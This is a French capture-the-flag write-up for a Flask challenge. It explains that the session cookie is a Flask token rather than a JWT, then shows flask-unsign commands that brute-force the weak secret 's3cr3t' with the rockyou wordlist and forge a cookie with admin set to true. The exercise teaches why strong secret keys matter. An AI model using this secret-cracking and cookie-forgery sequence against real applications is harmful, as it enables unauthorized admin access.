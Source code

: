
*Énoncé* : "Le développeur web de la société Flask-me vous affirme qu’utiliser une clé secrète robuste est inutile. Prouvez-lui le contraire !"


Un cookie de session contient un JWT.

On le décode sur jwt.io et on se rend compte que :
- Le format n'est pas traditionnel :
	- Le JSON de données est dans le header au lieu d'être dans la payload
	- Donc le header ne contient pas le nom de l'algorithme utilisé, etc
	- De plus la payload contient des caractères aléatoires qui varient si on régénère le cookie (et n'est pas format JSON)
- Les données contenues dans le header du JWT sont : `{"admin": "false",  "username": "guest"}`
- La signature est courte (27 caractère en base64), soit 40 caractères en hexadécimal, ce qui fait penser à un algo **HMAC-SHA1**

**ATTENTION** : en réalité il ne s'agit pas d'un JWT mais d'un jeton de session créé par Flask. 

*Objectif* : modifier le header pour mettre admin à True, puis truquer le JWT pour avoir une signature valide (par exemple en trouver le secret puis en recréant une signature)

*Idée* : comme le secret est faible et on connait le texte en clair et la signature, on peut tenter un bruteforce. 


On télécharge un outil dédié pour ça (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)
```bash
> pip3 install flask-unsign

> flask-unsign --decode --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Zzn0-A.HZjclWuk3D-xhk6rkAgDn-PJTmQ'
{'admin': 'false', 'username': 'guest'}

# BRUTE FORCE
> flask-unsign --wordlist ../Bureau/wordlists/rockyou.txt --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Zzn0-A.HZjclWuk3D-xhk6rkAgDn-PJTmQ' --no-literal-eval
b's3cr3t'

> flask-unsign --sign --cookie "{'admin': 'true', 'username': 'guest'}" --secret 's3cr3t'
eyJhZG1pbiI6InRydWUiLCJ1c2VybmFtZSI6Imd1ZXN0In0.Zzn6uw.DF8XNtdeYMzjI_KqTPNERz2yPXw
```
Et on obtient un cookie admin et on récupère le flag !